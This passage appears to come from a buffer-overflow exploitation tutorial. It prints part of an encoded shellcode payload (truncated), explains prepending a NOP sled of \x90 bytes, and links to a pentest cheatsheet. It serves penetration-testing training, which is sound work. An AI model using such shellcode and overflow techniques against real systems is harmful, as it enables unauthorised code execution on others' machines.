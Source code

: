 
```
payload = ("\xfc\xbb\xa1\x8a\x96\xa2\xeb\x0c\x5e\x56\x31\x1e\xad\x01\xc3"
"\x85\xc0\x75\xf7\xc3\xe8\xef\xff\xff\xff\x5d\x62\x14\xa2\x9d"
...
"\xf7\x04\x44\x8d\x88\xf2\x54\xe4\x8d\xbf\xd2\x15\xfc\xd0\xb6"
"\x19\x53\xd0\x92\x19\x53\x2e\x1d")
```

## Prepend NOPs

Since an encoder was likely used to generate the payload, you will need some space in memory for the payload to unpack itself. You can do this by setting the padding variable to a string of 16 or more "No Operation" (\x90) bytes:

```
padding = "\x90" * 16
```

## Exploit!

{% hint style="info" %}
[https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/buffer-overflows.rst](https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/buffer-overflows.rst)
{% endhint %}
